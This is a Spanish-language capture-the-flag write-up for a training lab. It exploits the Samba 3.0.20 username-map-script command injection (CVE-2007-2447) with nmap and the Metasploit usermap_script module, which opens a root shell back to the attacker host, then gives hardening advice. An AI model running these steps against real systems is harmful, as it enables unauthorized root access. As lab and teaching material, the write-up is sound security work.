




<h1 align="center">[Writeup] Vulnerability - Reporte de Vulnerabilidad</h1>

**Fecha:** 18 de Mayo, 2026 
**Severidad:** Crítica 
**Objetivo:** 172.17.0.2 
**Vulnerabilidad Identificada:** Ejecución Remota de Comandos (RCE) mediante la explotación del **CVE-2007-2447** en el servicio Samba.
**Plataforma**: WhoAmI-Labs.com

---

# Descripción
"Laboratorio pedagógico de Concept & Beginner (Nivel Easy). Diseñado para auditar vectores prácticos en entornos reales. El reto involucra técnicas de: vulnerability, requiriendo obtener acceso inicial y comprometer el sistema."

---

## 1. Fase de Reconocimiento y Enumeración

### Escaneo de Puertos (Nmap)

Se identificó el servicio Samba ejecutándose en puertos estándar, destacando una versión sumamente específica y obsoleta:

```
nmap -sV -sC -p- --min-rate 1000 172.17.0.2 -oN scan_vulnerability.txt
```

- **Port 139/tcp:** open netbios-ssn Samba smbd 3.X - 4.X
- **Port 445/tcp:** open netbios-ssn Samba smbd **3.0.20-Debian**
- 


- **Configuración Crítica:** `message_signing: disabled` (lo que facilita ataques de interceptación y explotación directa).

---

## 2. Fase de Análisis de Vulnerabilidades

### Identificación de la Vulnerabilidad: "Username Map Script"

La versión **Samba 3.0.20** es vulnerable a una inyección de comandos conocida como **CVE-2007-2447**. Esta vulnerabilidad ocurre cuando Samba está configurado para utilizar un script externo para el mapeo de nombres de usuario. Un atacante puede enviar caracteres meta-caracteres de shell (como `` ` `` o `$()`) en el campo del nombre de usuario, los cuales son ejecutados por el sistema con privilegios elevados.

```
mfsconsole
search usermap_script
use exploit/multi/samba/usermap_script
```

---

## 3. Fase de Intrusión (Explotación con Metasploit)

Para obtener acceso al sistema, se utilizó el framework Metasploit, que cuenta con un módulo automatizado para este vector.

1. **Módulo utilizado:** `exploit/multi/samba/usermap_script`

2. **Configuración de parámetros:**

- **RHOSTS:** 172.17.0.2

- **LHOST:** [IP de la máquina atacante]

```
set RHOST 172.17.0.2
set LHOST 172.17.0.1
run
```



1. **Resultado:** El exploit estableció una sesión de comandos remota (Command Shell), otorgando acceso inmediato como usuario **root** debido a que el servicio Samba corre con privilegios de superusuario.

```
whoami
ls -la
cd /root
ls -la
cat flag.txt
```



**Bandera capturada:** 

`SAMBA{us3rn4m3_m4p_scr1pt_c0mm4nd_1nj3ct10n}`



---

## 4. Mitigaciones Recomendadas (Defensa)

Al igual que en laboratorios anteriores donde se abusó de permisos excesivos, las medidas correctivas se centran en la actualización y el endurecimiento (Hardening) del sistema:

- **Actualización Crítica de Software:** La medida principal es actualizar Samba a una versión que no sea vulnerable al CVE-2007-2447. Las versiones modernas han eliminado la lógica defectuosa en el manejo de scripts de mapeo.

- **Deshabilitar Scripts de Mapeo innecesarios:** Si la funcionalidad `username map script` no es requerida para la operación, debe eliminarse de la configuración del archivo `smb.conf`.

- **Configuración de Firma de Mensajes (SMB Signing):** Habilitar `server signing = mandatory` en la configuración de Samba para prevenir ataques de retransmisión y asegurar la integridad de la comunicación.

- **Principio de Menor Privilegio:** Asegurar que los servicios de red no se ejecuten como root a menos que sea estrictamente necesario, limitando así el impacto de un RCE exitoso.
